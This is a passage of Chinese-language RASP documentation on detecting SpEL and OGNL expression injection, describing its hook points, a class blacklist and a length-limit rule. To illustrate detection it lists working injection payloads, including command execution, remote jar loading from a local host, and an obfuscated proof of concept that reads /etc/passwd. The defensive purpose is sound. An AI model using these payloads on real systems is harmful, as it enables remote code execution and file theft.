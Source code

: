 ## 10.3 Hook点与检测算法

### 10.3.1 Hook点的选择

对于SPEL表达式注入，选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法，该方法的源码如下：

![img_8.png](img_8.png)

对于OGNL表达式注入，选择类ognl.OgnlParser的`topLevelExpression`方法，该方法的源码如下：

![截屏2024-04-05 下午6.03.16.png](img_9.png)

### 10.3.2 表达式注入与检测算法

由于OGNL与SPEL表达式除了Hook方法不一样，检测算法几乎一样，这里以SPEL表达式的检测算法为例子说明。

+ 黑名单检测

先来看下常见的具备攻击能力的表达式写法：

```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

检测表达式中是否存在指定的类，这些类能够执行命令、脚本或者读取文件等，如下所示：
```java
System
Runtime
ProcessBuilder
java.lang.Runtime
java.lang.ProcessBuilder
javax.script.ScriptEngineManager
java.lang.System
org.springframework.cglib.core.ReflectUtils
java.io.File
java.net.URL        
javax.management.remote.rmi.RMIConnector
// ....
```

+ 最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的POC如下，显然其长度超过了正常表达式的长度。一般应用的表达式不会太长，因此可以对表达式的长度做一个限制。
如SPEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```

下图为SPEL表达式的常用检测算法，黑名单算法的优先级高于长度限制算法。
 ![img_10.png](img_10.png)

参考：https://xz.aliyun.com/t/9245?time__1311=n4%2BxuDgD9DyDRGCDCD0DBMb7evwoa4ECDfrD&alichlgref=https%3A%2F%2Fbaidu.com%2F